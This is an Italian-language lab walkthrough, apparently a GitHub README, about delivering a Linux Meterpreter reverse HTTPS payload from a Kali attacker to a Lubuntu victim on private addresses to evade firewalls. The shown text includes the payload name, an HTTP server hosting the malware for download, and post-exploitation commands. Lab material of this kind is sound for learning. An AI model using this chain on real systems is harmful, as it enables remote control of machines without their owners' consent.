






# Linux_Reverse-Shell_HTTPS_Evasion

Questo laboratorio dimostra come stabilire una connessione Meterpreter tra una macchina Kali Linux e una vittima Lubuntu utilizzando il protocollo HTTPS (porta 443) per l’evasione dei firewall.

## Setup

- Attaccante: Kali Linux (IP: 192.168.188.145)
- Vittima: Lubuntu (IP: 192.168.188.129)
- Payload: `linux/x64/meterpreter_reverse_https`

  

## (Kali Linux) Terminale 1: Preparazione del Listener

In questa fase, prepariamo il "ricevitore" che aspetterà la connessione dalla vittima.



## (Kali Linux) Terminale 2: Creazione e Confezionamento del Malware

Creiamo il file malevolo vero e proprio, tramite `msfvenom`.



## (Kali Linux) Terminale 2:

```bash
sudo python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
```

### (Lubuntu) Browser: 192.168.188.145:8001




## Terminale (Lubuntu): Esecuzione della Vittima



## Terminale 1 (Kali Linux): Controllo Remoto



```bash
sysinfo
getuid
pwd
shell
whoami
for dir in $(echo $PATH | tr ':' ' '); do ls $dir; done | sort | uniq
…
```
